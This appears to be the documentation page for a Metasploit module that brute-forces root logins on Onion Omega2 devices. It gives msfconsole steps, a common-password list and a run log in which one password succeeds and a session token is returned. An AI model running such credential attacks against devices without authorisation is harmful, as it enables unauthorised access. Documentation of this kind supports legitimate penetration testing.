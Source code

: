 ## Description
The onion_omega2_login module is used to brute-force credentials for Onion Omage2 devices.

## Vulnerable Application
* Onion Omage2 HTTPd Service

![Onion Omega2](https://raw.githubusercontent.com/OnionIoT/Onion-Docs/master/Omega2/Documentation/Get-Started/img/unbox-6-omega-led-detail.jpg)

![Onion Omega2 OnionOS Web Page](https://i.imgur.com/nrHnQaW.png)

## Verification Steps
1. Plug your Onion Omega2 device to a power source. 
    - First time setup can be found [here](https://docs.onion.io/omega2-docs/first-time-setup.html)
2. Connect to its Wi-Fi network.
3. Start `msfconsole`
4. Do: `use auxiliary/scanner/http/onion_omega2_login`
5. Do: `set RHOSTS 192.168.3.1`
6. Do: `set USERPASS_FILE <user pass dictionary>`
    - username and password separated by space and one pair per line.
7. Do: `run`

Sample userpass file:
```text
root 123456
root password
root 123456789
root 12345678
root 12345
root 10601
root qwerty
root 123123
root 111111
root abc123
root 1234567
root dragon
root 1q2w3e4r
root sunshine
root 654321
root master
```

## Scenario 
```
msf5 > use auxiliary/scanner/http/onion_omega2_login
msf5 auxiliary(scanner/http/onion_omega2_login) > set RHOSTS 192.168.3.1
RHOSTS => 192.168.3.1
msf5 auxiliary(scanner/http/onion_omega2_login) > set USERPASS_FILE something.txt
USERPASS_FILE => something.txt
msf5 auxiliary(scanner/http/onion_omega2_login) > run

[*] Running for 192.168.3.1...
[*] 192.168.3.1:80 - [ 1/16] - root:123456 - Failure
[!] No active DB -- Credential data will not be saved!
[*] 192.168.3.1:80 - [ 2/16] - root:password - Failure
[*] 192.168.3.1:80 - [ 3/16] - root:123456789 - Failure
[*] 192.168.3.1:80 - [ 4/16] - root:12345678 - Failure
[*] 192.168.3.1:80 - [ 5/16] - root:12345 - Failure
[+] Ubus RPC Session: 403e133730879d23a2a0df022e19c19c
[+] 192.168.3.1:80 - [ 6/16] - root:10601 - Success
[*] 192.168.3.1:80 - [ 7/16] - root:qwerty - Failure
[*] 192.168.3.1:80 - [ 8/16] - root:123123 - Failure
[*] 192.168.3.1:80 - [ 9/16] - root:111111 - Failure
[*] 192.168.3.1:80 - [10/16] - root:abc123 - Failure
[*] 192.168.3.1:80 - [11/16] - root:1234567 - Failure
[*] 192.168.3.1:80 - [12/16] - root:dragon - Failure
[*] 192.168.3.1:80 - [13/16] - root:1q2w3e4r - Failure
[*] 192.168.3.1:80 - [14/16] - root:sunshine - Failure
[*] 192.168.3.1:80 - [15/16] - root:654321 - Failure
[*] 192.168.3.1:80 - [16/16] - root:master - Failure
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
